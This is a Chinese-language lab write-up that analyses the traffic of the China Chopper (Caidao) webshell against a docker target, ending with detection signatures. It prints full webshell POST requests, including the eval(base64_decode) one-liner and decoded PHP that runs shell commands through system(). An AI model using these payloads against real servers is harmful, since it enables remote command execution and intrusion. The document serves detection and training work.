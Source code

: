 更新时间：2025年06月24日18:00:37



# 文件结构
![](images/1750759271186-25a4e282-d841-4e4c-8a38-aff510dd6917.png)

# 环境准备
分析机：Windows 10 

靶机：docker环境 192.168.13.1

攻击工具：菜刀 [https://github.com/raddyfiy/caidao-official-version](https://github.com/raddyfiy/caidao-official-version)

分析工具：网站访问日志access.log、wireshark



待分析菜刀版本：

chopper.exe：md5各版本校验码（仅exe主程序）: 

20111116 => 5001ef50c7e869253a7c152a638eab8a

# 启动方法
```python
docker-compose up -d --build
```



![](images/1750759071158-033e7f2b-ef99-4d01-a903-1645319ff928.png)





然后访问http://目标ip:8080端口



![](images/1750759096184-97b81a04-4df2-48a6-aa4a-cf24559ecd9c.png)

此时在access_logs目录下存在access.log文件，并有访问日志：



![](images/1750176417009-7f0ce4ef-e0b1-4fc9-8d72-8840bb4387f3.png)

# 菜刀特征分析
按照提示，直接使用菜刀webshell工具连接，并在此过程中，抓包分析流量特征：



![](images/1750176700143-ce10c032-eb38-4bdf-8f67-11735fe3b303.png)





![](images/1750176745303-f79c5286-383a-4ae6-845c-4814b67d512a.png)



连接之后，执行命令操作以及文件操作：



![](images/1750304232119-c73369d5-3a17-436b-8f61-81114aaa0caf.png)



此时抓包停止，准备分析包。

# 特征分析
## access.log日志
在连接之后，可以在日志里面看到连接shell的请求都是post请求，初版是没有ua请求信息的：



![](images/1750304469080-2301d3ed-82fd-4b0a-825e-52c178f9c489.png)



## 流量分析
### 第一段建立连接流量分析
分析wireshark抓包流量，过滤http请求：



![](images/1750304437934-207d700d-18e9-433e-a2d9-3252dc21d746.png)



追踪第34个包看下：



![](images/1750304524195-b7c08445-7fc9-438f-84fc-b547871454bb.png)



```python
POST /shell.php HTTP/1.1
X-Forwarded-For: 7.29.79.149
Referer: http://192.168.13.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 192.168.13.1:8080
Content-Length: 639
Connection: Close
Cache-Control: no-cache

pass=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs%3D&z1=L2Jpbi9zaA%3D%3D&z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtuZXRzdGF0IC1hbiB8IGdyZXAgRVNUQUJMSVNIRUQ7ZWNobyBbU107cHdkO2VjaG8gW0Vd
HTTP/1.1 200 OK
Date: Thu, 19 Jun 2025 03:39:42 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Vary: Accept-Encoding
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

<h3>.... Caidao Webshell .........</h3><p>................................................POST ............ <code>pass</code></p>->|/bin/sh: 1: netstat: not found
[S]
/var/www/html
[E]
|<-
```



从这里可以看到一句话木马的连接密码就是pass：



![](images/1750305080766-a08a77f9-609d-46c9-8587-091378ae10e7.png)



对其解码分析，首先经过url解码：

```python
pass=@eval(base64_decode($_POST[z0]));
z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=
z1=L2Jpbi9zaA==
z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtuZXRzdGF0IC1hbiB8IGdyZXAgRVNUQUJMSVNIRUQ7ZWNobyBbU107cHdkO2VjaG8gW0Vd
```



再经过base64解码，z0解码：

```python
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;
$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);
$d=dirname($_SERVER["SCRIPT_FILENAME"]);
$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";
$r="{$p} {$c}";
@system($r." 2>&1",$ret);
print ($ret!=0)?"\nret={$ret}":"";;
echo("|<-");die();
```



z1解码：

```python
/bin/sh
```



z2解码：

```python
cd "/var/www/html";netstat -an | grep ESTABLISHED;echo [S];pwd;echo [E]
```



通过ai结合分析得知，解码后的代码是一个PHP Web Shell，接收Base64编码的POST参数z0、z1和z2，最终在服务器上执行Shell命令：

```python
cd "/var/www/html";netstat -an | grep ESTABLISHED;echo [S];pwd;echo [E]
```



输出网络连接信息和当前目录路径，标记为->|和|<-。

### 第二段命令执行流量分析
现在分析第56条流量，追踪一下看看：



![](images/1750305526761-edecb562-e167-44a4-973e-f786ca8cf191.png)

```python

pass=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs%3D&z1=L2Jpbi9zaA%3D%3D&z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtkaXI7ZWNobyBbU107cHdkO2VjaG8gW0Vd
```



url进行第一次解码：

```python
pass=@eval(base64_decode($_POST[z0]));
z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=
z1=L2Jpbi9zaA==
z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtkaXI7ZWNobyBbU107cHdkO2VjaG8gW0Vd
```



z0进行base64解码：

```python
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;
$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);
$d=dirname($_SERVER["SCRIPT_FILENAME"]);
$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";
$r="{$p} {$c}";
@system($r." 2>&1",$ret);
print ($ret!=0)?"\nret={$ret}":"";;
echo("|<-");die();
```



z1解码：

```python
/bin/sh
```



z2解码：

```python
cd "/var/www/html";dir;echo [S];pwd;echo [E]
```



<font style="color:black;">最终执行的命令，在Linux系统上，PHP代码会构造并执行以下命令：</font>

```bash
/bin/sh -c "cd \"/var/www/html\";dir;echo [S];pwd;echo [E]" 2>&1
```

<font style="color:black;">这会：</font>

+ <font style="color:black;">切换到</font><font style="color:black;">/var/www/html</font><font style="color:black;">目录。</font>
+ <font style="color:black;">列出该目录下的文件和文件夹。</font>
+ <font style="color:black;">输出当前工作目录路径。</font>
+ <font style="color:black;">用</font><font style="color:black;">[S]</font><font style="color:black;">和</font><font style="color:black;">[E]</font><font style="color:black;">标记输出结果。</font>

从返回包上看，确实返回了执行的结果：



![](images/1750307078581-5d225263-ddd9-4504-94b7-693a84266d0a.png)







### 流量分析总结
由此可知，中国菜刀20111116版本的特征里面存在`z0`、`z1`、`z2`参数，此时还存在`QGluaV9zZXQo`这段字符，当然，该段字符并不一定不是中国菜刀独有的固定特征，但是可以作为辅助进一步判断。

# 实验结束
分析完成之后，使用：

```python
docker-compose down
```





![](images/1750759152189-af6663e0-2788-4147-86d1-1d37754c5e93.png)



















